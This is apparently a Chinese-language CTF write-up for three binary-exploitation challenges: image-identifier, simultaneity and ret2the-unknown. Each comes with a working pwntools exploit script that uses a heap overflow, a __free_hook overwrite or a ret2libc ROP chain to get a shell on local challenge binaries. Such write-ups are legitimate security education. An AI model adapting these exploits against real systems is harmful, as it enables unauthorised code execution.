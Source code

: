 ## image-identifier

> 题目漏洞不难，就是通过堆溢出修改函数指针到后门函数，难点就是在于逆向 updata_crc 和另外几个检查算法。

是一个解析图片的程序，首先匹配字符串来检查文件头是否符合标准，判断两个文件类型，修改全局标志位，后面进入对应的处理函数：

![image-20210722163338689](https://gitee.com/mrskye/Picbed/raw/master/img/20210722163345.png)

然后对中间部分进行 crc 校验。固定伪造 png 的 size 之后，将断点打在 updata_crc 抓取出当前 size 对应的 crc 校验码 ：

![image-20210722163528776](https://gitee.com/mrskye/Picbed/raw/master/img/20210722163531.png)

利用修改图片的功能，将位于高地址的堆块中的指针修改到后门。

write_deviation 是通过从文件中读取的数据修改过来的，可以控制部分数据，劫持这偏移地址。

写入内容是 updata_crc 的返回值，改造部分 png 数据，让 crc 返回值是 0x1818 写入 dword 劫持地址到后门。

![image-20210722173214642](../../Library/Application Support/typora-user-images/image-20210722173214642.png)

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
import sys

#--------------------------info-----------------------------
binary_path = "./chal"
local_libc_path = "/lib/x86_64-linux-gnu/libc.so.6"
remote_libc_path = "libc-2.23.so"

#--------------------------payload--------------------------
def payload():
    # with open("./1.png",'rb') as file:
    #     data = file.read()

    img_sz = 0x29
    pngHead = 0x0a1a0a0d474e5089
    checksum = 0x5ab9bc8a
    png = p64(pngHead) + b"\r" * (7)
    png += b"A"*( 0x1d - len(png) )
    png += p32(checksum)
    png += b"\x00"*3 + b"\x27"
    png += p32(0xb18)
    png += b"\x00" * (img_sz - len(png))

    # gdb.attach(p,"b *0x401A3F")

    p.sendlineafter("file?\n\n",str(len(png)))
    p.sendafter("here:\n\n",png)
    p.sendlineafter("colors?\n",'y')
    p.interactive()

#--------------------------main-----------------------------
if __name__ == '__main__':
    context.binary = ELF(binary_path)
    if sys.argv[1] == "r":
        p = remote("127.0.0.1",12000)
        elf = ELF(binary_path)
        libc = ELF(remote_libc_path)
    else:
        context.log_level='debug'
        context.terminal =['tmux','sp','-h']
        p = process(binary_path)
        elf = ELF(binary_path)
        libc = ELF(local_libc_path)
    payload()
```



## simultaneity

常规 mmap 分配堆块泄露 libc 地址、scanf 触发 malloc&free ，就是最后调试 scanf 发现调用 strtoull ，将字符串转换为数字，可以在写入内容前面加 `0` ，拼凑出足够长度让 scanf 申请 malloc ，达到写入的同时调用 free_hook

```python
from pwn import *
context.log_level='debug'
context.terminal=['tmux','sp','-h']

binary = context.binary = ELF('./simultaneity')

# p = process(binary.path)
# elf = ELF(binary.path)
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p = process(["./ld-linux-x86-64.so.2", "./simultaneity"], env={"LD_PRELOAD":"./libc.so.6"})

p.sendlineafter("big?\n",str(10000000))
p.recvuntil('here: ')
heap_addr = int(p.recvline().strip(),16)
libc.address = heap_addr-(0x7f8458780010-0x7f845910a000)
log.info('libc.address: ' + hex(libc.address))
log.info('libc.sym.__free_hook: ' + hex(libc.sym.__free_hook))

gdb.attach(p,"b *$rebase(0x125C)")

p.sendlineafter("far?\n",str(0))
# p.sendlineafter("far?\n",str((libc.sym.__free_hook - heap_addr)//8))
# p.sendlineafter("what?\n",str(libc.address+0xe6c7e))
p.sendlineafter("what?\n",0x500*"0"+str(libc.address+0xe6c84))



p.interactive()
```

## ret2the-unknown

```python
from pwn import *


POP_RDI_RET = 0x00023a5f 
libc = ELF("./libc-2.28.so")

p = process("./ret2the-unknown", env={"LD_PRELOAD": "./libc-2.28.so"})

payload  = b"A" * (32+8)                           
payload += p64(0x401186)                              
log.info("Overwriting return address with main.")
p.recvuntil("safely?")
p.sendline(payload)

p.recvuntil("there: ")
printf_addr = p.recvuntil("luck!").decode("utf-8").split("\n")[0]

printf_addr   = int(printf_addr, 16)                   
libc.address  = printf_addr - libc.symbols["printf"]  
payload  = b"B" * (32+8)                      
payload += p64(libc.address + POP_RDI_RET)           
payload += p64(next(libc.search(b"/bin/sh")))       
payload += p64(libc.symbols["system"])               


p.recvuntil("safely?")
p.sendline(payload)

p.recvuntil("luck!")
p.interactive()
```

